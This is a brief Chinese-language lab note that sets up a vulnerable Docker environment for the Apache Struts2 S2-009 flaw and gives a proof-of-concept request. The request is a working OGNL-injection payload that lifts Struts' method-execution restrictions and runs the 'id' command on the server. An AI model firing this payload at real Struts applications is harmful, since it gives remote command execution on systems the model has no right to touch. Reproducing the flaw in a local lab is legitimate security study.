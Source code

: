 运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-009
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面

![s2-009-1](images/s2-009-1.png)

任意命令执行 PoC，执行 `id` 命令

```
/showcase.action/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27id%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]

```
